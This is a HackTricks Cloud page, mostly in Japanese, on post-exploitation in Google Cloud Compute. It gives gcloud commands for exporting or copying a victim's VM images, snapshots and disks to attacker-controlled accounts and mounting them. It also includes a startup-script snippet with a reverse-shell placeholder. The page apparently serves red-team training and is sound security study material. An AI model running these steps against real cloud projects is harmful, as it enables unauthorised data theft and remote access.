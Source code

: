 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

ComputeとVPC（ネットワーキング）に関する詳細情報は、以下を確認してください：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

これにより、攻撃者は**既存のイメージに含まれるデータにアクセス**したり、**実行中のVMの新しいイメージを作成**して、実行中のVMにアクセスせずにそのデータにアクセスすることができます。

VMイメージをバケットにエクスポートし、その後ダウンロードしてローカルにマウントすることが可能です：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

このアクションを実行するには、攻撃者はストレージバケットに対する権限が必要であり、確実に**cloudbuildに対する権限**が必要です。これは、エクスポートを実行するように求められる**サービス**です。\
さらに、これが機能するためには、codebuild SAとcompute SAが特権的な権限を持っている必要があります。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` は以下の権限が必要です：

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

そして、SA `<project-id>-compute@developer.gserviceaccount.com` は以下の権限が必要です：

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### スナップショットとディスクをローカルにエクスポートおよび検査する

スナップショットとディスクを直接エクスポートすることはできませんが、**スナップショットをディスクに変換し、ディスクをイメージに変換する**ことは可能であり、**前のセクション**に従って、そのイメージをエクスポートしてローカルで検査することができます。

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VMを作成してイメージを検査する

攻撃者が**イメージを作成した**場所から**イメージに保存されたデータ**や**実行中のVM**にアクセスすることを目的として、外部アカウントにイメージへのアクセスを付与することが可能です:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
そして、それから新しいVMを作成します：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
もし画像に対して外部アカウントのアクセスを与えられなかった場合、被害者のプロジェクトでその画像を使用してVMを起動し、**メタデータにリバースシェルを実行させる**ことで、パラメータを追加して画像にアクセスすることができます:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### スナップショット/ディスクをVMにアタッチして検査する

**ディスクまたはスナップショットに保存されたデータにアクセスすることを目的として、スナップショットをディスクに変換し、ディスクをイメージに変換し、前の手順に従うことができます。**

または、**外部アカウントにディスクへのアクセスを付与する**ことができます（出発点がスナップショットの場合は、スナップショットへのアクセスを付与するか、そこからディスクを作成します）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**インスタンスにディスクをアタッチする**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
ディスクをVM内にマウントします：

1.  **VMにSSH接続**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **ディスクを特定**：VM内に入ったら、ディスクデバイスをリストして新しいディスクを特定します。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3. **ディスクをフォーマットしてマウント**（新しいまたは生のディスクの場合）：
*   マウントポイントを作成：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   ディスクをマウント：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

もし**スナップショットやディスクに外部プロジェクトへのアクセスを与えることができない場合**、**スナップショット/ディスクと同じプロジェクト内のインスタンスでこれらの操作を実行する必要があるかもしれません**。

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
